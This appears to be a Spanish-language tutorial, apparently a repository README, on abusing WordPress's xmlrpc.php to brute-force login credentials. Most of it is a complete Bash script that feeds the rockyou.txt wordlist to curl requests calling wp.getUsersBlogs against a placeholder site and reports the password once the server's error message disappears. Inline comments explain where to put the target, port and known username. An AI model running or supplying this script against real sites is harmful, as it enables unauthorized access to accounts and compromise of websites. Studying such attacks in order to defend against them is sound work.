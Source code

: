 # Descripción

Cómo abusar del archivo **xmlrpc.php** para mediante la creación de un script de Bash aplicar fuerza bruta. El objetivo será demostrar cómo los atacantes pueden utilizar este archivo existente en WordPress para intentar descubrir credenciales válidas y comprometer la seguridad del sitio web.

Para lograrlo, crearemos un script de Bash en el cual emplearemos la herramienta curl para enviar solicitudes XML-RPC al archivo xmlrpc.php del sitio web WordPress. A través del método **wp.getUsersBlogs**, enviaremos una estructura XML que contendrá el nombre de usuario y la contraseña a probar.

En caso de que las credenciales no sean correctas, el servidor responderá con un mensaje de error que indica que las credenciales son incorrectas. Sin embargo, si las credenciales son válidas, la respuesta del servidor será diferente y no incluirá el mensaje de error.

De esta forma, podremos utilizar la respuesta del servidor para determinar cuándo hemos encontrado credenciales válidas y, de esta forma, tener acceso al sitio web de WordPress comprometido.



	#!/bin/bash

	function ctrl_c(){ 
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
	}
 

	# Ctrl+C
	trap ctrl_c SIGINT


	function createXML(){  
        password=$1
        xmlfile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall>    
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>USER</value></param>                  <-- *Debemos ingresar el valor del usuario previamente descubierto*
	<param><value>$password</value></param>             
	</params> 
	</methodCall>"""


        echo $xmlfile > file.xml

        response=$(curl -s -X POST "https://ejemplo.com:80/xmlrpc.php" -d@file.xml)  <-- *debemos cambiar la direccion y puerto deseado y el nombre de archivo correspondiente*

        if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then  <-- *el tipo de respuesta según la que nos devuelva la página objetivo*
        echo -e "\n[+] La contraseña para el usuario es $password"
        exit 0
        fi
	}
 
	
	cat /usr/share/wordlists/rockyou.txt | while read password; do      <-- *Cambiaremos la ruta en caso de querer usar otro diccionario*
        createXML $password
	done

